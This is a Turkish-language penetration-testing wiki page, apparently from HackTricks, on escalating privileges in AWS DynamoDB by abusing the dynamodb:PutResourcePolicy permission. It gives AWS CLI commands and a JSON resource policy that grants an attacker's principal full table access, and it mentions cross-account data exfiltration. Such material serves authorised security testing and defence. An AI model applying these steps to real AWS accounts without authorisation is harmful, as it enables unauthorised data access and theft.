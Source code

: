 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

dynamodb hakkında daha fazla bilgi için bakınız:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, ve isteğe bağlı olarak `dynamodb:GetResourcePolicy`

Mart 2024'ten beri, AWS DynamoDB için *kaynak tabanlı politikalar* sunuyor ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Bu yüzden, bir tablo için `dynamodb:PutResourcePolicy` iznine sahipseniz, kendinize veya herhangi bir diğer principal'a tablonun tam erişimini verebilirsiniz.

Rastgele bir principal'e `dynamodb:PutResourcePolicy` vermek çoğunlukla kazara olur; eğer yöneticiler `dynamodb:Put*` vermenin sadece principal'in veritabanına item koymasına izin vereceğini düşünürse — veya bu permissionset'i Mart 2024'ten önce vermişlerse...

İdeal olarak ayrıca `dynamodb:GetResourcePolicy` izniniz de olur, böylece diğer muhtemelen hayati izinleri üzerine yazmaz, sadece ihtiyacınız olan ek izinleri enjekte edersiniz:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Mevcut politikayı alamıyorsanız, tablo üzerinde principal'inize tam erişim veren bu politikayı kullanın:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Eğer bunu özelleştirmeniz gerekirse, tüm olası DynamoDB eylemlerinin listesi burada: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Ve resource based policy ile izin verilebilecek tüm eylemlerin ve bunlardan hangilerinin cross-account olarak kullanılabileceğinin (düşünün data exfiltration!) listesi burada: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Şimdi, policy document `policy.json` hazırsa, resource policy'i yerleştirin:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Şimdi ihtiyacınız olan izinlere sahip olmalısınız.

### Post Exploitation

Bildiğim kadarıyla **sadece bazı AWS `dynamodb` izinlerine sahip olarak AWS üzerinde ayrıcalıkları yükseltmenin başka doğrudan bir yolu yoktur**. Tablolardan **hassas bilgileri okuyabilir** (bu bilgiler AWS credentials içerebilir) ve tablolara **bilgi yazabilirsiniz** (bu, lambda code injections... gibi diğer zafiyetleri tetikleyebilir) fakat tüm bu seçenekler zaten **DynamoDB Post Exploitation page** içinde ele alınmıştır:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: data Streams'ı suistimal ederek veri okuma

{{#include ../../../../banners/hacktricks-training.md}}
